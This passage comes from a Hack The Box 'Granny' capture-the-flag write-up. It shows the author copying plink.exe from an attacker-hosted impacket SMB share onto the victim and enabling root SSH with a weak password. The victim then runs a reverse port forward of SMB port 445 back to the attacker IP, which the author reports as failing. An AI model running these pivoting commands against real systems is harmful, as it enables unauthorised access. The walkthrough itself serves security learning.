 An interesting thing about the machine is that it has port **445** of the **SMB** protocol open. I can try to forward the local port 445 of the box to port 445 of my attacking machine with **[PuTTy's](https://the.earth.li/~sgtatham/putty/0.58/htmldoc/Chapter7.html){:target="_blank"}** `plink.exe` tool to be able to access, download content to the machine. Before I must make some modifications to the **SSH** service configuration on my machine so that when I connect from the **Granny** box I succeed to authenticate and allows me to succeed my goal, unfortunately the port 445 does not succeed to connect, I think due to some problems or restrictions of **IPTables** or **Firewall**.

> **[plink.exe](https://the.earth.li/~sgtatham/putty/0.58/htmldoc/Chapter7.html){:target="_blank"}** in Kali Linux, a command-line **PuTTY** tool, is a versatile command-line SSH client used for various network tasks, including secure connections, port forwarding, and tunneling. It's often employed for automating tasks and scripting.

> **Victime Machine**:

```cmd
netstat -ano
```

> **Attacker Machine**:

```bash
locate plink.exe
impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
copy \\10.10.14.56\smbFolder\plink.exe .\plink.exe
.\plink.exe
```

> **Attacker Machine**:

```bash
nvim /etc/ssh/ssh_config
# PermitRootLogin  yes
passwd root
systemctl status ssh
systemctl start ssh
```

> **Victime Machine**:

```cmd
.\plink.exe -l root -pw hola123 -R 445:127.0.0.1:445 10.10.14.56
```

> **Attacker Machine**:

```bash
lsof -i:445
# :(
```

<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
